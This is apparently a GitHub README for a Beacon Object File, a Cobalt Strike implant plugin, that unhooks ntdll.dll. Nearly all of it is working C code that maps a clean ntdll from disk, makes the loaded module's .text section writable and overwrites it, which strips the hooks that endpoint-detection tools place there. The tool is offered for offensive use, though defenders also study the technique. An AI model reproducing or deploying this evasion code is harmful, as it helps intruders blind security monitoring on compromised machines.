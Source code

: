 # Removing Hooks by Refreshing NTDLL

A Beacon Object File used to remove userland hooks from NTDLL. Currently supports only 64 bit (although the change is trivial).

## Hook Removal

Parses the PE structure of the loaded ntdll.dll module:

```
PSAPI$GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);
```

Maps a new copy of ntdll from disk, without hooks:
```
HANDLE ntdllFile = KERNEL32$CreateFileA((LPCSTR)"c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
HANDLE ntdllMapping = KERNEL32$CreateFileMappingA(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
LPVOID ntdllMappingAddress = KERNEL32$MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);
```

Parses the sections of the pre-existing ntdll, and looks for the ".text" section.
Once the target section is found, the code within it is replaced with the code of the NTDLL module that was mapped from disk:

```
for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
                PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

                if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
                        DWORD oldProtection = 0;
                        BOOL isProtected = KERNEL32$VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
                        MSVCRT$memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
                        isProtected = KERNEL32$VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
                }
        }
```